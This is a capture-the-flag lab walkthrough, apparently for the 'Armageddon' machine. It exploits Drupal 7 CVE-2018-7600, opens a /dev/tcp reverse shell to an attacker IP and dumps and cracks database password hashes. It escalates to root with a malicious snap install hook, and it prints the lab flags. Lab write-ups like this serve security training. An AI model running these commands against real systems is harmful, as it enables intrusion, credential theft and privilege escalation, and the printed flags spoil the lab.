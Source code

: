# Armageddon - Easy

```shell
sudo vim /etc/hosts
#add armageddon.htb

nmap -T4 -p- -A -Pn -v armageddon.htb

cmseek

#get exploit from Github
python3 drupal7-CVE-2018-7600.py http://armageddon.htb/ -c "id"
#we get rce

nc -nvlp 443
#listener on port 4444 does not work

python3 drupal7-CVE-2018-7600.py http://armageddon.htb/ -c "sh -i >& /dev/tcp/10.10.14.8/443 0>&1"
#we get reverse shell

id
#apache

python3 -c 'import pty;pty.spawn("/bin/bash")'
#this does not work

cat /etc/passwd
#we have user 'brucetherealadmin'

ls -la /home
#access denied

pwd
#enumerate files in /var/www/html

ls -la sites

ls -la sites/default

#another way to grep password
grep -ir "password" sites/*
#this gives us a hash

cat sites/default/settings.php
#this contains db details for 'drupaluser'

mysql -u drupaluser -p
#does not work
#as we do not have pty shell

mysql -u drupaluser -p -e "show databases"
#use -e flag to pass command

mysql -u drupaluser -p -e "SELECT table_name FROM information_schema.tables WHERE table_schema = 'drupal'"
#list tables from drupal database

mysql -u drupaluser -p -e "SELECT * FROM drupal.users"
#dump users table from drupal database
#this gives us hash

#in attacker machine
hashcat -a 0 -m 7900 hash.txt /usr/share/wordlists/rockyou.txt
#cracks drupal hash
#we get password

ssh brucetherealadmin@armageddon.htb
#ssh login works using cracked password

cat user.txt

sudo -l
#we can run snap install as root

#snap exploit on GTFObins

#on attacker machine
COMMAND="cat /root/root.txt"

cd $(mktemp -d)

mkdir -p meta/hooks

printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install

chmod +x meta/hooks/install

sudo gem install fpm

fpm -n xxxx -s dir -t snap -a all meta
#crafts malicious snap package

python3 -m http.server

#in victim ssh session
curl http://10.10.14.8:8000/xxxx_1.0_all.snap -o xxxx_1.0_all.snap

sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
#this prints root flag as error
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.4
  * 80 - http - Apache httpd 2.4.6 (CentOS)

* The webpage shows a login page for some blog titled 'Armageddon'.

* Using ```cmseek```, we find that the page is based on ```Drupal v7```.

* Searching for exploits related to this give us results for exploits related to 'drupalgeddon' and 'CVE-2018-7600'.

* We can get the exploit for CVE-2018-7600 from GitHub; running the exploit works and we get RCE.

* To get shell, we can run the exploit with a reverse-shell one-liner command; we get reverse-shell on our listener at port 443.

* We have shell as 'apache' user now; however there are a lot of restrictions.

* We cannot upgrade or stabilize our shell; moreover, we do not have permissions to execute scripts or access /home directory.

* We can check the web files in the current working directory '/var/www/html' - there are a lot of files to go through.

* While enumerating all the files and folders, we stumble upon a file 'settings.php' in the 'sites/default' directory.

* This file contains the database details - it also contains username 'drupaluser' and the corresponding password.

* Therefore, we can connect with ```mysql``` as drupaluser - but this does not work as we do not have a proper shell.

* We can use the ```-e``` flag instead to pass commands.

* Using this way, we can dump the 'users' table from the 'drupal' database - this gives us a hash for 'admin' user.

* Now, checking ```/etc/passwd``` file shows that there is a user 'brucetherealadmin' - this hash could be cracked and checked for password reuse.

* ```hashcat``` cracks the ```Drupal``` hash, and using this password, we can login as 'brucetherealadmin' via SSH.

* User flag can be found in the home directory once we log in.

* ```sudo -l``` shows we can run the following command as root:

  ```/usr/bin/snap install *```

* From GTFObins, we can get an exploit for ```snap```.

* By following this exploit, we can craft a malicious '.snap' package in attacker machine, and transfer it to the victim SSH session.

* Running the sudo command with the crafted package prints the root flag.

```markdown
1. User flag - db25aee79c0f2dd96b187a3e9148c3da

2. Root flag - 14d07e2fc3120ff8f92d97545a7b66ab
```
